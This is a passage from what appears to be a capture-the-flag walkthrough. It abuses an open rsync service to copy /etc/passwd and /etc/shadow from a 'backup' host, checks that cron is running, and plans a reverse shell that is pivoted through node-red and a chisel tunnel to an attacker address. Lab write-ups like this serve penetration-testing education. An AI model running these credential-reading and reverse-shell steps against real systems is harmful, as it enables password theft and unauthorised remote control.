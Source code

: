 We now know the IP is 172.20.0.2. Let’s also try to retrieve a file with rsync. Read and write operations:

```bash
# Read file from remote
rsync -av user@remote:/etc/passwd ./passwd_copy

# Write file to remote
rsync -av ./passwd_copy user@remote:/tmp/passwd_copy

```

Let’s try copying:

```bash
rsync -av rsync://backup:873/src/etc/passwd ./passwd
```

Now we have a new file passwd. Let’s see if this is being executed as root, and attempt to read shadow file:

```bash
rsync -av rsync://backup:873/src/etc/shadow ./shadow

rsync -av rsync://backup:873/src/etc/hosts ./hosts

```

We can. 

Let’s see if there are any cron jobs; if there is a file, it’s a pretty good indication that cron jobs are running, if we overwrite that file, we can get it to execute our reverse shell. We can also double check but retrieving the pid file; if it exists, then cron job is running; the following has to be done as root:

```bash
rsync -av rsync://backup:873/src/var/run/crond.pid crond.pid

cat cron.dpid
11
```

Cron daemon is running. If we want a reverse shell, we need to proxy our server through node-red so www can connect to our server via node-red. So our pivot chain 

```bash
attack_server <-> node-red <-> www <- backup

10.10.16.4:8005 server -> node-red forward incoming traffic to 8005 to server -> www connect to proxy-server, which in effect connect to our localhost, forward 9002 to our localhost <- backup reverese shell connection

attack:
server 8005 attack 10.10.16.4

node-red:
forward server 8005 node-red 172.19.0.3 to 10.10.16.4:8005

www:
client 8005 node-red
local port forward 9002 to 10.10.16.4 via chisel tunnel

backup:
reverse shell connect to www (172.20.0.3:9002)
```
